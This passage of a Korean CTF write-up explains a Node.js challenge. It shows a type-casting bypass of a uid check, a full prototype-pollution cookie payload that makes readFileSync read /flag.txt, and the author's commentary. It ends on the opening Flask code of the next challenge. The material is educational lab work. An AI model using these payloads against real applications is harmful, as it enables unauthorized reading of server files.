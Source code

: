 ```javascript
res.type("text/plain").send(result);
```

uid가 0이여야 하는데 일반적으론 uid를 0으로 설정하는 것이 불가능하다.
하지만 uid를 0.1e1과 같이 전달할 경우 type casting으로 인해 이를 우회하여 uid가 0인 유저가 될 수 있다.

위를 우회했기 때문에 vm안에서 코드를 실행하는 것이 가능한데 filter로 인해서 flag 파일을 읽는 것이 불가능하다.
이는 Prototype pollution을 이용하면 우회하여 flag 파일을 읽는 것이 가능하다.

`a={};a.__proto__.protocol='file:';a.__proto__.pathname='/flag.txt';a.__proto__.href='a';a.__proto__.origin='a';a.__proto__.hostname='';readFile([])`

prototpe pollution을 이용해서 fs.readFileSync가 전혀 다른 파일을 읽도록 하는 것이 가능하다.

회원가입하고 아래와 같이 쿠키를 설정한 뒤 /checkout으로 요청을 보내면 된다.

```
{"username":"ff","password":"123456"}
```

->

`uid=0.3e1; passwd=8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92; data=1+1])%3ba={}%3ba.__proto__.protocol='file:'%3ba.__proto__.pathname='/flag.txt'%3ba.__proto__.href='asdf'%3ba.__proto__.origin='a'%3ba.__proto__.hostname=''%3breadFile([])//`

여기서 uid 0.3e1에서 3은 자신이 부여받은 uid를 넣어주면 된다.

### 블로그 포스트 작성자의 추가적인 코멘트

Node.js의 vm run을 우리의 input으로 그대로 이용하고 있기 때문에 `prototype pollutiuon`을 유발시킬 수 있다는 점은 쉽게 알 수 있습니다. 이 점을 알고있다면, 사실 위에 적혀있는 풀이처럼 필터링되어있는 `readFileSync`의 흐름을 조작할 수 있는 것은 잘 알려져있는 익스플로잇 방법입니다. <br>
때문에, vm이 run 될 때, 실행할 수 없는 `child process`같은 방법이 아니라 vm 외부에서의 동작을 조작할 수 있는 방법에 대해 고민해보는 점이 풀이에 다가가기 위해 매우 중요합니다. 우리는 이러한 사고를 통해 prototype pollution을 생각해낼 수 있습니다. <br>
결론적으로는 prototype pollution에 대해 알고 있는지에 대해 물어보는 문제였습니다. 개인적으로는 prototype pollution을 떠올릴 수 있는 관련 키워드가 문제 설명에 적혀있었다면 어땠을까 하는 생각이 드는 것 같습니다.

---

## trick

**출제자 책정 난이도**: Hard

```python
@app.route("/")
def index():
    name = request.args.get('name', "").replace("(","").replace(")","").replace("{","").replace("}","")
    code = request.args.get('code', "").replace("(","").replace(")","").replace("{","").replace("}","")
    title = request.args.get('title', "")
    content = request.args.get('content', "")
    ctx = {
        'nonce': os.urandom(32).hex(),
        'note': {
        'title': title,
        'content': content,
        },
        'name': name,
        'code': code,
        'is_admin': 0
    }
    return render_template("index.html", **ctx)
```
